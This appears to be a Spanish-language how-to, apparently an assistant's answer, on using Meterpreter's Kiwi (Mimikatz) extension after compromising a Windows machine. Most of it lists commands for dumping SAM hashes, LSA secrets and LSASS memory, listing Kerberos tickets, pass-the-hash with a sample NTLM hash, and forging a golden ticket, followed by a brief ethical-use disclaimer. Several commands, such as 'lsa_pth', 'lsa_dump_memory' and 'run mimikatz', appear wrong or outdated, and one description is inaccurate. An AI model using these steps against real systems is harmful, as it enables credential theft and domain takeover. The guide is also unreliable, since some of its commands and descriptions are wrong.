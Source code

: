 Para utilizar **Kiwi** con **Meterpreter** en el contexto de pruebas de penetración y post-explotación, es importante entender qué es Kiwi, cómo se carga y qué comandos puedes utilizar. A continuación, te proporciono una guía completa:

---

### **¿Qué es Kiwi?**
Kiwi es una extensión de Meterpreter que permite interactuar con el módulo **Mimikatz**, una herramienta ampliamente utilizada para extraer credenciales, hashes y tickets Kerberos de la memoria en sistemas Windows. Es especialmente útil en la fase de post-explotación para escalar privilegios o moverte lateralmente en una red.

---

### **Requisitos previos**
1. **Meterpreter en la máquina objetivo**: Debes tener una sesión de Meterpreter activa en un sistema Windows.
2. **Privilegios adecuados**: Para usar Kiwi, necesitas tener privilegios de administrador o SYSTEM en la máquina objetivo.

---

### **Cargar Kiwi en Meterpreter**
Una vez que tienes una sesión de Meterpreter, puedes cargar Kiwi con el siguiente comando:

```bash
load kiwi
```

Esto cargará la extensión Kiwi y te permitirá usar sus funcionalidades.

---

### **Comandos principales de Kiwi**

#### 1. **Credenciales y hashes**
- **Obtener todos los hashes de contraseñas**:

  ```bash
  lsa_dump_sam
  ```
  
Este comando extrae los hashes de las contraseñas 
  almacenadas en la base de datos SAM.

- **Obtener credenciales de la memoria (LSASS)**:

  ```bash
  lsa_dump_secrets
  ```
  
Extrae credenciales almacenadas en la memoria del proceso LSASS.

- **Obtener tickets Kerberos**:

  ```bash
  kerberos_ticket_list
  ```
 
Lista los tickets Kerberos almacenados en la memoria.

#### 2. **Pass-the-Hash**
- **Usar un hash NTLM para autenticarte**:

  ```bash
  lsa_pth <usuario> <dominio> <hash_ntlm>
  ```
  
Este comando te permite autenticarte en otros sistemas usando un hash NTLM.

#### 3. **Golden Ticket**
- **Crear un Golden Ticket**:

  ```bash
  golden_ticket_create <usuario> <dominio> <sid> <krbtgt_hash>
  ```
  
Genera un Golden Ticket para obtener acceso a cualquier recurso en el dominio.

#### 4. **Volcado de memoria**
- **Volcar la memoria del proceso LSASS**:

  ```bash
  lsa_dump_memory
  ```
  
Este comando vuelca la memoria del proceso LSASS, que puede contener credenciales.

#### 5. **Otras funcionalidades**
- **Listar todos los comandos disponibles**:

  ```bash
  help
  ```
 
  Muestra una lista de todos los comandos disponibles en Kiwi.

---

### **Ejemplo de uso**
1. Obtener una sesión de Meterpreter en la máquina objetivo.
2. Cargar Kiwi:

   ```bash
   load kiwi
   ```

3. Extraer hashes de contraseñas:

   ```bash
   lsa_dump_sam
   ```

4. Usar un hash NTLM para autenticarte en otro sistema:

   ```bash
   lsa_pth Administrador DOMINIO aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
   ```

---

### **Consideraciones de seguridad**
- **Uso ético**: Kiwi y Mimikatz son herramientas poderosas que deben usarse solo en entornos autorizados, como pruebas de penetración o auditorías de seguridad.
- **Detección**: El uso de Kiwi puede ser detectado por soluciones de seguridad como antivirus o EDR (Endpoint Detection and Response).

---

### **Alternativas a Kiwi**
Si no puedes cargar Kiwi, puedes usar el módulo de Mimikatz directamente desde Meterpreter:

```bash
run mimikatz
```

---

Con esta información, deberías poder utilizar Kiwi en Meterpreter para extraer credenciales y realizar tareas de post-explotación en sistemas Windows.